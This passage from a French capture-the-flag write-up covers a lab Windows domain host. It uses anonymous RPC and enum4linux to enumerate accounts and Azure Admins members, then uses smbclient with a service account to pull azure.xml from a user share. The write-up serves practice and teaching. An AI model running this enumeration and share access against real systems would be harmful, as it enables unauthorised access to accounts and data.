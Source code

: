 ```
user:[roleary] rid:[0xa36]
user:[smorgan] rid:[0xa37]
```

Connexion anonyme possible en RPC, nous permet de récupérer la liste des utilisateurs systèmes

## SMB
### Accés anonyme

`enum4linux -a 10.10.10.172`

```
index: 0xfb6 RID: 0x450 acb: 0x00000210 Account: AAD_987d7f2f57d2       Name: AAD_987d7f2f57d2  Desc: Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.
index: 0xfd0 RID: 0xa35 acb: 0x00000210 Account: dgalanos       Name: Dimitris Galanos  Desc: (null)
index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0xfc3 RID: 0x641 acb: 0x00000210 Account: mhope  Name: Mike Hope Desc: (null)
index: 0xfd1 RID: 0xa36 acb: 0x00000210 Account: roleary        Name: Ray O'Leary       Desc: (null)
index: 0xfc5 RID: 0xa2a acb: 0x00000210 Account: SABatchJobs    Name: SABatchJobs       Desc: (null)
index: 0xfd2 RID: 0xa37 acb: 0x00000210 Account: smorgan        Name: Sally Morgan      Desc: (null)
index: 0xfc6 RID: 0xa2b acb: 0x00000210 Account: svc-ata        Name: svc-ata   Desc: (null)
index: 0xfc7 RID: 0xa2c acb: 0x00000210 Account: svc-bexec      Name: svc-bexec Desc: (null)
index: 0xfc8 RID: 0xa2d acb: 0x00000210 Account: svc-netapp     Name: svc-netapp        Desc: (null)
```

```
Group 'Azure Admins' (RID: 2601) has member: MEGABANK\Administrator
Group 'Azure Admins' (RID: 2601) has member: MEGABANK\AAD_987d7f2f57d2
Group 'Azure Admins' (RID: 2601) has member: MEGABANK\mhope
```

Enum4linux nous confirme les noms d'utilisateur, et nous indique la présente d'un groupe `Azure Admins`

### Accés utilisateur

On accéde aux shares SMB via le compte `SABatchJobs`

`smbclient -U 'SABatchJobs' \\\\10.10.10.172\\users$`

```
Unable to initialize messaging context
Enter WORKGROUP\SABatchJobs's password: 
Try "help" to get a list of possible commands.
smb: \>
smb: \> cd mhope
smb: \mhope\> ls
  azure.xml                          AR     1212  Fri Jan  3 14:40:23 2020
smb: \mhope\> get azure.xml
getting file \mhope\azure.xml of size 1212 as azure.xml (16,7 KiloBytes/sec) (average 16,7 KiloBytes/sec)
```
